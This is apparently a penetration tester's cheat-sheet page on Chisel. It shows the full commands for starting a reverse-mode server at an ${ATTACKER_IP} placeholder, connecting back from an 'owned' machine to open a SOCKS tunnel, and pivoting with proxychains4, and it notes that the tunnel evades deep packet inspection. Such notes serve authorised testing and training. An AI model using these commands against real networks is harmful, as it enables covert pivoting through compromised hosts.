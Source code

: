 # Chisel
if you get:


> /chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32` not found (required by ./chisel)
go [here](https://github.com/jpillora/chisel/releases) for the appropriate release.


Chisel makes it possible to do HTTP tunneling encrypted such that deep packet inspection won't be able to look into the details of the traffic.

We run a chisel server on `${ATTACKER_IP}` which allows us to connect back from an owned machine:

```
chisel server --port ${ATTACKER_PORT} --reverse
```


From the `${OWNED_IP0}`, run 

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks
```
This creates a SOCKS tunnel (bound to 1080 by default). <--- USE 1080 as proxy port, not `${ATTACKER_PORT}`. Also when setting up the proxy in the browser!

If you want it to not block your current shell, do:

```
chisel client ${ATTACKER_IP}:${ATTACKER_PORT} R:socks > /dev/null 2>&1 &
```

Once the client and server is setup, we can access targets from the point of view of `${OWNED_IP0}` by using proxychains4:

Add to proxychains4.conf:
```
socks5 127.0.0.1 1080
```

```
proxychains4 -f proxychains4.conf ${SOME_COMMAND} 
```

